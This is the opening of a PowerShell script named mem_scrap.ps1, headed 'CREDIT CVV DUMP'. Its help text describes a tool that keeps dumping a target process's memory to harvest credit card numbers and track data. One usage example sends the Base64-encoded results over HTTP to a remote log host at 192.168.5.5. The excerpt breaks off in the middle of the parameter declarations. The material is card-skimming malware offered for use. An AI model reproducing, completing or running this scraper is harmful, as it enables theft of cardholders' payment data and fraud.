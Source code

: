 # mem_scrap.ps1
CREDIT CVV DUMP - THE HOW TO GET ATTENTION

<#
.DESCRIPTION

    mem_scraper will continously dump memory of a specified process and search for 
    track data or credit card numbers.

.LINK

    http://www.shellntel.com

.EXAMPLE

mem_scraper.ps1 -Proc iexplore -User bob

Description
-----------
scrapes memory of all IE processes owned by user 'bob'

.EXAMPLE

mem_scraper.ps1 -Proc -NumsOnly -Logging

Description
-----------
scrapes memory of all IE processes for card numbers and writes them to mem_output.txt log file

.EXAMPLE

mem_scraper.ps1 -Proc iexplore -User bob -Bin 123456 -LogHost 192.168.5.5 

Description
-----------
Scrapes memory of all IE processes owned by user 'bob'.
Matches card numbers to specific BIN/IIN number
Base64 encoded results will be sent via http on port 80 to host 192.168.5.5. 
#>
[CmdletBinding()]
Param (


    [Parameter(Position = 0, Mandatory = $True, ValueFromPipeline = $True)]
    [String]
    $Proc,

    [Parameter(Position = 1)]
    [ValidateScript({ Test-Path $_ })]
    [String]
    $DumpFilePath = $PWD,

    [Parameter(Mandatory=$false)]
    [String]$LogHost,

    [Parameter(Mandatory=$false)]
    [string[]]$User,
